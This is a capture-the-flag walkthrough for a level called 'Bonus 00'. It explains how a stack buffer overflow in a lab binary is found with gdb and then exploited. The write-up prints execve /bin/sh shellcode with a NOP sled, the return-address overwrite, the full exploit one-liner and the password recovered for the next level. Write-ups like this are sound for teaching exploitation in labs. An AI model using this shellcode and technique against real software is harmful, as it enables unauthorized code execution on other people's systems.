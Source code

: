 # Bonus 00 Walkthrough

## Binary analysis

The binary is vulnerable to a buffer overflow. We can exploit this by placing shellcode in an environment variable and overflowing the buffer to redirect execution to this shellcode.

We noticed that when giving to stdin a lot of A on the first input, and a lot of B on the second input, we can overflow the buffer and overwrite the return address.

```
(gdb) r < <(sleep 1; python3 -c 'print(b"A"*100)'; sleep 1; python3 -c 'print(b"B" * 100)')
(gdb) p/x $eip
$2 = 0x42424242
```

With a cyclic pattern, we find the offset to be 13 bytes.

## Exploitation

We export a shellcode in an environment variable:
```bash
export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
```

We find the address of the shellcode in the environment (using gdb and `x/2000s (char **)environ`).
```
(gdb) x/2000s (char **)environ
```

We overflow the buffer and overwrite the return address with the address of the shellcode:
```bash
(python -c 'print(b"A"*20)'; python -c 'print(b"B"*9+b"\xbf\xff\xeb\xff"[::-1]+b"C"*42)'; cat -) | ./bonus0
```
Here an offset of 13 didn't work so we tried 13 +/- 4 bytes and we found 9 worked.

## Commands used

```
(python -c 'print(b"A"*20)'; python -c 'print(b"B"*9+b"\xbf\xff\xeb\xff"[::-1]+b"C"*42)'; cat -) | ./bonus0
cat /home/user/bonus1/.pass
```

## Result

After running the exploit, we get a shell as bonus1 and can read the password:

```
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
